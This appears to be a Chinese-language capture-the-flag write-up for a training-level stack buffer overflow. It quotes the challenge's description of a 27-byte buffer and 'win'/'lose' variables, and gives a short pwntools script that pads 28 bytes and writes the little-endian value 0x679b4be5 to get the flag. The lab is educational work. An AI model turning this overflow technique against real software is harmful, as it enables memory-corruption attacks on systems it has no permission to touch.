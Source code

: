 # 挑战简介
```
我们的堆栈指针指向 0x7ffd98e9c790，基指针指向 0x7ffd98e9c7f0。
这意味着我们的堆栈框架中有（十进制）14 个 8 字节字，
包括保存的基指针和保存的返回地址，
总共 112 个字节。
输入缓冲区从 0x7ffd98e9c7c0 开始，位于堆栈框架的中途，
（堆栈中“上方”是函数使用的其他局部变量）。
您的输入将被读入此缓冲区。
缓冲区长度为 27 个字节，但程序会让您提供任意大的输入长度，从而溢出缓冲区。

在此级别中，有一个“win”变量。
默认情况下，此变量的值为零。
但是，如果您可以将变量设置为 0x679b4be5，则会打印该标志。
您可以通过溢出输入缓冲区来更改此变量，但要记住字节序！
“win”变量存储在 0x7ffd98e9c7dc，即输入缓冲区开始后的 28 个字节。

但要小心！还有一个 LOSE 变量。如果此变量最终为非零，则程序将终止，并且您将不会获得标志。注意不要覆盖此变量。

“lose”变量存储在 0x7ffd98e9c7e0，即输入缓冲区开始后的 32 个字节。

我们已针对此挑战禁用以下标准内存损坏缓解措施：
- 二进制文件*不*与位置无关。这意味着每次运行时它都会位于同一位置，这意味着通过分析二进制文件（使用 objdump 或读取此输出），您可以知道覆盖返回地址所需的确切值。

您已选择发送 4096 个字节的输入！
这将允许您从 0x7ffd98e9c7c0（输入缓冲区的起始位置）写入
直到（但不包括）0x7ffd98e9d7c0（超出缓冲区末尾 4069 个字节）。
发送您的有效负载（最多 4096 个字节）！
```

# 思路
这题就需要我们给win参数一个变量，赋值一个规定的4字节的十六进制的数  

需要注意的是，输入进去的十六进制格式，会转化成'0xaaaaaa'的格式，比如b'\xe5\x4b\x9b\x67'进去，就会0x679b4be5出来

还要注意的是，lose函数在第32字节，win变量在第28字节，最多只能接收4个字节，多了就四了，换行符也算

代码如下
```
#!/usr/bin/python
from pwn import *
import struct

context(os='linux',arch='AMD64',log_level='debug')
p = process('/challenge/binary-exploitation-var-control-w')

p.recvuntil('Send your payload (up to 4096 bytes)!\n')
p.send(b'a' * 28 + b'\xe5\x4b\x9b\x67')
p.recvall()
```
